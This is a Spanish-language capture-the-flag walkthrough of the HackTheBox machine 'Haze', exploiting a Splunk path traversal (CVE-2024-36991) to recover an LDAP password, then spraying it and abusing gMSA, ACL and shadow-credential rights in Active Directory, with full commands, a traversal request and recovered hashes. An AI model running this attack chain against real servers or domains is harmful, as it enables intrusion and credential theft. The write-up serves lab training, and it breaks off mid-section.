## Box Info

| Name                  | Haze             | 
| :-------------------- | ---------------: |
| Release Date          | 29 Mar, 2025     |
| OS                    | Windows          |
| Rated Difficulty      | Hard             |

TTL 127 = Maquina Windows

```zsh
ping -c 3 10.10.11.61

PING 10.10.11.61 (10.10.11.61) 56(84) bytes of data.
64 bytes from 10.10.11.61: icmp_seq=1 ttl=127 time=55.9 ms
64 bytes from 10.10.11.61: icmp_seq=2 ttl=127 time=59.4 ms
64 bytes from 10.10.11.61: icmp_seq=3 ttl=127 time=56.9 ms
```

## Enumeration

```bash
nmap -sCV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,8000,8088,8089,9389,47001,49664,49665,49666,49667,49669,58301,58308,58309,58311,58321,58338,58341,58409 10.10.11.61 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-28 02:12 CST
Nmap scan report for 10.10.11.61
Host is up (0.057s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-28 09:32:01Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Not valid before: 2025-03-05T07:12:20
|_Not valid after:  2026-03-05T07:12:20
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Site doesnt have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.11.61:8000/en-US/account/login?return_to=%2Fen-US%2F
8088/tcp  open  ssl/http      Splunkd httpd
|_http-title: 404 Not Found
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
8089/tcp  open  ssl/http      Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2025-03-05T07:29:08
|_Not valid after:  2028-03-04T07:29:08
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
58301/tcp open  msrpc         Microsoft Windows RPC
58308/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
58309/tcp open  msrpc         Microsoft Windows RPC
58311/tcp open  msrpc         Microsoft Windows RPC
58321/tcp open  msrpc         Microsoft Windows RPC
58338/tcp open  msrpc         Microsoft Windows RPC
58341/tcp open  msrpc         Microsoft Windows RPC
58409/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 1h19m44s
| smb2-time: 
|   date: 2025-05-28T09:33:03
|_  start_date: N/A
```

```zsh
echo "10.10.11.61 haze.htb" | sudo tee -a /etc/hosts 
```



- whatweb



```zsh
8089/tcp  open  ssl/http      Splunkd httpd
```

Podemos ver que el puerto 8089 nos muestra la version de splunkd.



## Path Traversal | Splunk 9.2.1

[critical-splunk-vulnerability-cve-2024-36991 - arbitrary file reads](https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads)


Encontramos un script que explota esta vulnerabilidad .
[Github - CVE-2024-36991](https://github.com/bigb0x/CVE-2024-36991)

```zsh
python3 CVE-2024-36991.py -u http://haze.htb:8000/
```



```
admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```

Ninguno de estos hashes es posible romperlos, pero al menos tenemos usuarios

```zsh
Mark
paul
Edward
```

En el articulo menciona un path traversal manual interceptando un peticion "``GET /en-US/modules/messaging/``".



- BurpSuite



Intente leer el archivo /etc/passwd pero no mostró nada, como yo no se que archivos maneje splunk, investigue su documentacion para leer archivos, como ``.conf``

Encontramos la ruta donde los archivos config se almacenan [Configuration file directories](https://help.splunk.com/en/splunk-enterprise/administer/admin-manual/9.4/administer-splunk-enterprise-with-configuration-files/configuration-file-directories)

```
$SPLUNK_HOME/etc/system/local
```

Una lista de archivos config que pueden encontrarse en la ruta [List of configuration files](https://help.splunk.com/en/splunk-enterprise/administer/admin-manual/9.4/administer-splunk-enterprise-with-configuration-files/list-of-configuration-files)

| File                | Purpose                                                                      |
| ------------------- | ---------------------------------------------------------------------------- |
| authentication.conf | Toggle between Splunk's built-in authentication or LDAP, and configure LDAP. |




Este es un archivo de autenticacion de splunk relacionado con la autenticacion LDAP

```zsh
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

Como el hash no es crackeable, buscando por su sigla `bindDNpassword` encontra un articulo

[LDAP-bind-password-in-authentication](https://community.splunk.com/t5/Security/LDAP-bind-password-in-authentication-conf-not-portable-across/m-p/16368)



Este archivo `splunk.secret` es un archivo que contiene una clave maestra que splunk usa para cifrar y descifrar credenciales, su ubicacion tipi es la que se menciona.

```zsh
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/auth/splunk.secret
```



## Cracking Hash Secret

Existe un script que descifra la password.

[splunksecrets](https://github.com/HurricaneLabs/splunksecrets.git)

```secret
$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
```

```zsh
splunksecrets splunk-decrypt -S secret
```



En Active Directory es muy común que los usuarios tengan una estructura en sus nombres como p.taylor o paultaylor o paul.taylor, con esto podemos crearnos un archivo para validar que nombre es el que se encuentra en el dominio.

```zsh
nxc smb 10.10.11.61 -u user -p 'Ld@p_Auth_Sp1unk@2k24'
```

```c
paul.taylor:Ld@p_Auth_Sp1unk@2k24
```

Validamos las credenciales

```zsh
netexec smb 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
```



Listamos los archivos compartidos que puede leer/ver paul.taylor

```zsh
netexec smb 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --shares
```



Con smbmap veremos todos los archivos de cada carpeta (si lo hay) en bruto para de esa forma ver mas facil cada uno de ellos.

```zsh
smbmap -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' -H 10.10.11.61 -r SYSVOL --depth 10
```



## Enumeration Users

Enumeramos usuarios que paul.taylor puede ver, sin embargo paul.taylor y esto es muy común en AD que algunos usuarios tenga restricciones al ver a otros usuarios.

```zsh
rpcclient -U 'paul.taylor%Ld@p_Auth_Sp1unk@2k24' 10.10.11.61 -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v "0x" | tr -d '[]'
```



Con rpcclient tambien podemos ver descripciones, algunas veces se puede encontrar cosas interesantes en esa parte.

```zsh
rpcclient -U 'paul.taylor%Ld@p_Auth_Sp1unk@2k24' 10.10.11.61 -c 'querydispinfo'                                                
index: 0xfe6 RID: 0x44f acb: 0x00000210 Account: paul.taylor    Name: (null)    Desc: (null)
```

#### Enum Users via SMB Brute Force

Otro metodo para listar usuarios es usando Brute Force con smb, en tal caso de que uno no funcione.

```zsh
sudo netexec smb haze.htb -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute | grep SidTypeUser
```



```Users
DC01$
paul.taylor
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$
```

## Password Spraying

Posiblemente haya algun usuario que recicle contraseñas y esto a veces se suele dar que 2 o mas usuarios usen una misma contraseña.

```zsh
netexec smb 10.10.11.61 -u users -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
```



Podemos probar listar si hay mas usuarios con el usuario mark.adams

```zsh
rpcclient -U 'mark.adams%Ld@p_Auth_Sp1unk@2k24' 10.10.11.61 -c 'querydispinfo'
```



## BloodHound

```zsh
bloodhound-python -d haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 -ns 10.10.11.61 --zip -c All
```



Una **Cuenta de Servicio Administrada (sMSA)** independiente es una cuenta de dominio administrada que ofrece administración automática de contraseñas, administración simplificada del nombre principal de servicio (SPN) y la posibilidad de delegar la administración a otros administradores.

- Lectura directa de la contraseña de la gMSA: La contraseña de la gMSA se almacena en el atributo msDS-ManagedPassword de Active Directory, al que solo pueden acceder las cuentas autorizadas (como los miembros del grupo de administradores de la gMSA). Como miembro del grupo de administradores, puede recuperar y descifrar directamente el atributo para obtener la contraseña en texto plano. Esto le permite iniciar sesión o realizar operaciones como la gMSA, lo que podría permitirle obtener mayores privilegios del sistema.

- Ataque de retransmisión NTLM: Al explotar la vulnerabilidad del protocolo NTLM, un atacante puede retransmitir las solicitudes de autenticación NTLM al servicio LDAP o LDAPS y, a continuación, acceder al atributo msDS-ManagedPassword para obtener la contraseña de la gMSA. Sin embargo, este método requiere condiciones y configuraciones de red específicas, y la tasa de éxito es limitada.

Ataque de gMSA dorada: Si un atacante tiene acceso al atributo de clave raíz del Servicio de Distribución de Claves (KDS), puede generar las contraseñas de todas las gMSA asociadas sin conexión. Esto se denomina ataque de "gMSA dorada" y permite al atacante obtener continuamente las contraseñas de las gMSA sin activar cambios de contraseña ni registros de acceso.

[dacl - readgmsapassword](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword)

```zsh
netexec winrm haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'
```



```zsh
python3   -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 -d haze.htb
```

#### gMSADumper



```zsh
bloodyAD --host 10.10.11.61 -d haze.htb -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24' get object Haze-IT-Backup$ --attr msDS-ManagedPassword
```



```zsh
Get-ADServiceAccount -Identity Haze-IT-Backup$ | Select-Object Name, ObjectClass
```



```powershell
Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword
```



`Domain Admins` tiene permisos **PrincipalsAllowedToRetrieveManagedPassword**

### Impersonation trought PrincipalsAllowedToRetrieveManagedPassword

Establecer la propiedad como Mark Adams

```powershell
Set-ADServiceAccount -Identity "Haze-IT-Backup$" -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```

Y ejecutamos nuevamente el script gMSADump.py



```powershell
Haze-IT-Backup$:::84d6a733d85d9e03f46eba25b34517a9
Haze-IT-Backup$:aes256-cts-hmac-sha1-96:8c47d46d7f2a5aef9d2ab5fda8c60b6e094ad78b2c55878faa9ff2b7fac740a6
Haze-IT-Backup$:aes128-cts-hmac-sha1-96:7627ff016dd47b73e99596362a068f41
```

But can't coonect to 5985

```powershell
dsacls "CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb"
```



**msDS-GroupMSAMembership**

Este atributo se utiliza para realizar comprobaciones de acceso para determinar si un solicitante tiene permiso para recuperar la contraseña de un grupo MSA. [i](https://learn.microsoft.com/en-us/windows/win32/adschema/a-msds-groupmsamembership)

## BloodHound - 2

```zsh
bloodhound-python -d haze.htb -u 'Haze-IT-Backup$' --hashes ':84d6a733d85d9e03f46eba25b34517a9' -ns 10.10.11.61 --zip -c All
```



Shadow Credentials

```zsh
bloodyAD --host 10.10.11.61 -d haze.htb -u 'Haze-IT-Backup$' -p ':84d6a733d85d9e03f46eba25b34517a9' set owner SUPPORT_SERVICES Haze-IT-Backup$
```



```zsh
impacket-dacledit -action write -rights FullControl -principal 'Haze-IT-Backup$' -target-dn 'CN=SUPPORT_SERVICES,CN=USERS,DC=haze,DC=htb' -dc-ip 10.10.11.61 "haze.htb/Haze-IT-Backup$" -hashes ':84d6a733d85d9e03f46eba25b34517a9'
```



```zsh
bloodyAD --host "10.10.11.61" -d "haze.htb" -u "Haze-IT-Backup$" -p ":84d6a733d85d9e03f46eba25b34517a9" add groupMember SUPPORT_SERVICES Haze-IT-Backup$
```



- Es necesario ejecutar los comandos rápidamente porque restablece las propiedades a los valores predeterminados.



#### Shadow Credential

```zsh
/home/kali/Documents/HTB/haze/pywhisker.py -d haze.htb -u "Haze-IT-Backup$" -H '84d6a733d85d9e03f46eba25b34517a9'  --target edward.martin --action add
```



`sudo ntpadte 10.10.11.61`

```zsh
